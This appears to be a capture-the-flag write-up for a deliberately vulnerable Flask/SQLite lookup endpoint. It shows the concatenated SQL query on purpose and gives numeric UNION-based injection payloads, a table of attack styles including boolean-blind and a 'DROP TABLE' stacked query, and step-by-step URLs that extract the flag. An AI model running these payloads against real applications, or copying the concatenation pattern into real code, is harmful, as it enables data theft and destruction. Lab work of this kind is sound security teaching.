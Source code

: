 # SQLi_Filtered – Personalised Write‑up

**Category:** Web – 150 pts
**Flag:** `flag{sqli_filtered}`

---

## Challenge Flow

1. The application only has a single point of GET /lookup?uid=<value>
2. Using `1` returns `User name: alice`, confirming there is a `users` table
3. By using all types of regex and the basic tests you see that the code blocks the quotes and semicolons, meaning that it must be Numeric SQL, this means the payload must be something like 0 UNION SELECT 1-- without quotes and semicolons
4. using 0 UNION SELECT sql FROM sqlite_master--, I can reveal that there is a table called very_secret
5. From here I can find the flag using 0 UNION SELECT flag FROM very_secret--
6. This reveals the flag of flag{sqli_filtered}


---


## How Difficulty Was Increased and Defence Mechanisms

I increased the difficulty by prohibiting the use of '," and ; through using a numeric solution when the normally, the solutions are string-based. I further used Generic error messages that would force blind experimentation instead of having the given error messages. I also recompiled the regex after each request to make a new compilation that would slightly obfuscates the code path. I implemented Quote and Semicolon to block ' OR 1=1-- and other similar classic solves. 


---

## Build and Solution Notes (How The Task Was Made and How A solution can be found)


This CTF challenge is a tiny flask web app that usese SQLite. It exposes one endpoint which is the GET /lookup?uid=<value> that looks up a user's name by uid and prints it. 
This task initially creates an sqlite file next to the script as a .db and it makes a flag of "flag{sqli_filtered}". It then creates 2 tables of users as users(uid, name) pre‑seeded with A/B/C and a very_secret(flag) containing the flag. At the lookup endpoint, the code gets a uid from the query string and blocks quotes and semicolons (returns HTTP 400) to stop obvious SQL payloads. The reason why SQL injections can appear for this task is because of the line 
```python
    query = "SELECT name FROM users WHERE uid = " + uid
    query = "SELECT name FROM users WHERE uid = ?", (int(uid),)
```
compared to the much safer version listed below it. This allows for sql injections as this task in particular is an integer-based in-band union based SQL injection, playing off the classic UNION-based sqli with a numeric filter that exludes string literals. This filter increases the difficulty by narrowing the attack surface and forcing knowledge of SQLite's schema and ordering tricks and column cardinality. I also limited the use of error checking in this test where the use of "return "SQL error", 400" as a result of regexing with certain commands that are used to usually test sql injections. 
To demonstrate this, here is a list of the common sql attacks and how they fail 

| Attack style                      | With Filter      | Without Filter  | Example payload (append to `/lookup uid=`) | What happens/ why|
| --------------------------------- | -------------------------------------------- | ----------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------- |
| **Tautology (OR 1=1)**            | **Yes**, but only numeric form               | **Trivial**                         | `1 OR 1=1--`                                                                                                                                             | WHERE becomes `uid = 1 OR 1=1` → many rows; app prints first (likely “alice”).                                   |
| **String‑based tautology**        | **No** (needs quotes)                        | **Trivial**                         | `0 OR 'a'='a'--`                                                                                                                                         | Quotes make it easy to force TRUE; blocked in filtered version.                                                  |
| **UNION‑based (1 column)**        | **Yes** (numeric/quote‑less UNION)           | **Trivial**                         | `0 UNION SELECT flag FROM very_secret--`                                                                                                                 | Column count = 1 matches `name`; returns the flag.                                                               |
| **UNION + targeted schema query** | **Harder** (no quotes for predicates)        | **Easy**                            | `0 UNION SELECT sql FROM sqlite_master WHERE name='very_secret'--`                                                                                       | With quotes: directly filter to the target table; without quotes it’s simpler.                                   |
| **Boolean‑based blind**           | **Possible** (use functions, no quotes)      | **Easier** (use quoted chars/LIKE)  | With filter: `1 AND substr((SELECT flag FROM very_secret),1,1)=char(102)--`  \| Without filter: `1 AND substr((SELECT flag FROM very_secret),1,1)='f'--` | You infer TRUE/FALSE by response difference (`User name: …` vs `Len=0`).                                         |
| **Error‑based**                   | **Weak** (generic “SQL error” hides details) | **Still weak** (same masking)       | `1'`  (causes syntax error)                                                                                                                              | App returns just “SQL error”, so you can’t read DB error text either way.                                        |
| **Time‑based blind**              | **Not practical on SQLite**                  | **Not practical on SQLite**         | (SQLite lacks `SLEEP()`)                                                                                                                                 | SQLite doesn’t have a native sleep; timing tricks are unreliable.                                                |
| **Stacked queries (`; DROP …`)**  | **Blocked** by filter                        | **Usually still blocked by driver** | `1; DROP TABLE users--`                                                                                                                                  | Python’s `sqlite3.execute()` only allows one statement; stacked won’t run unless the app used `executescript()`. |









/lookup?uid=0 UNION SELECT 1--

Read schema to find hidden tables:
/lookup?uid=0 UNION SELECT sql FROM sqlite_master--

Exfiltrate the flag:
/lookup?uid=0 UNION SELECT flag FROM very_secret--

Why it works: the base query returns one column (name), so a UNION SELECT <one column> fits; keywords (UNION, SELECT) and comments (--) don’t need quotes.


FLAG insert

cur.execute(f"INSERT INTO very_secret VALUES ('{FLAG}')") will break if FLAG contains a ' (single quote). It’s wrapped in try/except, so it silently fails. Use parameters instead.

Regex per request

Compiling the regex on every request is harmless but unnecessary overhead.












## Related & Future Variants
- Blind‑SQLi via time‑based or Boolean‑based techniques when direct feedback is suppressed
- Second‑Order SQLi where inputs are stored in one context and later executed in a different query
- Out‑of‑band SQLi leveraging DNS/HTTP exfiltration to leak data when in‑band channels are filtered

---

### Sources

* **PentesterLab – SQL Injection** https://pentesterlab.com
* **PayloadsAllTheThings – SQLi** https://github.com/swisskyrepo/PayloadsAllTheThings
* **SQLite Docs** https://www.sqlite.org/lang_select.html

